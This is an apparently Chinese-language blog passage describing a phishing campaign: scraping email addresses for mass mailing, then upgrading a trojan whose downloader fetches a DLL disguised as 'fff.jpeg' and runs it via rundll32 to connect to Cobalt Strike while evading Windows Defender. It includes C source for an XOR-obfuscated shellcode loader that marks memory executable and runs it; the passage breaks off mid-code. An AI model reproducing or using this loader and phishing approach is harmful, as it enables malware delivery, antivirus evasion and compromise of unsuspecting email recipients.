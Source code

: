 ![2019-05-21-17-50-55](../img/27efb20a7ab4f3ff84fd382a9c5093bc.png)

![2019-05-21-17-51-09](../img/27efb20a7ab4f3ff84fd382a9c5093bc.png)

## 0x09 发送邮件

邮箱地址通过http://www.skymem.info 采集到200多个，同时也写了一个脚本：

![2019-05-21-17-52-52](../img/1da1c504465925a913eda3053e8b4d55.png)

估计要跑一晚上了，明天看收获吧，如果有的话，继续写。

## 0x10 升级木马

第一版是一个败笔，应该关注更多视觉感受，比如图标、logo，暗示它这个文件是可信的，不应该使用其他程序用作加载器，来达到免杀的效果。如果第二版的木马当作第一版去发，我觉得成功率80%。

但是我觉得光采用反弹cmd的太烂了，木马要像模像样点。

于是，开始对木马进行改造，下载器文件不变，只需要更新服务器上的fff.jpeg这个DLL即可，因为每次运行，都会下载这个DLL，然后用rundll32调用。

我想使得它上线cobaltstrike，绕过Windows Defender基本上没啥问题了，既保证之前的邮件木马可用，又能保证新的代码更新。

重写`rundll32dllfun`即可：

fff.jpeg:

```
extern "C" _declspec(dllexport) void __cdecl rundll32dllfun(HWND hwnd, HINSTANCE hinst, LPSTR lpszCmdLine,
	int nCmdShow)
{
	CHAR cpu_code[] =
		"\xf5\xe1\x80\x09\x09\x09\x69\x80\xec\x38\xdb\x6d\x82\x5b\x39\x82\x5b\x05\x82\x5b\x1d\x82\x7b\x21...省略部分....\x3e\x38\x27\x38\x30\x27\x38\x3d\x3d\x27\x3f\x30\x09\x09\x09\x09\x09";
	DWORD dwCodeLength = sizeof(cpu_code);
	DWORD dwOldProtect = NULL;
	for (DWORD i = 0; i < dwCodeLength; i++) {
		cpu_code[i] ^= 9;
	}

	PVOID pCodeSpace = VirtualAlloc(NULL, dwCodeLength, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	if (pCodeSpace != NULL)
	{
		CopyMemory(pCodeSpace, cpu_code, dwCodeLength);
		Sleep(200);
		VirtualProtect(pCodeSpace, dwCodeLength, PAGE_EXECUTE, &dwOldProtect);
		CODE coder = (CODE)pCodeSpace;
```
